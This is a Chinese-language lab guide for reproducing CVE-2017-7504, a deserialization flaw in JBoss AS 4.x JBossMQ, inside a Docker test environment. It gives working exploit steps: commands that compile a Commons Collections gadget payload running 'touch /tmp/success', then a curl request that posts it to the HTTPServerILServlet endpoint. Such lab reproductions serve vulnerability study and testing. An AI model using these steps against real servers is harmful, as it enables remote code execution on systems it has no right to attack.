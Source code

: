 # JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

参考：

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## 漏洞环境

执行如下命令启动JBoss AS 4.0.5：

```
docker-compose up -d
```

环境启动后，目标为`http://your-ip:8080`。

## 漏洞复现

参考利用工具[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)，我们选择一个Gadget：`ExampleCommonsCollections1WithHashMap`，编译并生成序列化数据：

```
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "touch /tmp/success"
```

可见，我们执行的命令是`touch /tmp/success`。执行完成后，将生成一个文件`ExampleCommonsCollections1WithHashMap.ser`，将该文件作为body发送如下数据包：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

![](1.png)

执行`docker-compose exec jboss bash`进入容器，可见`/tmp/success`已成功创建。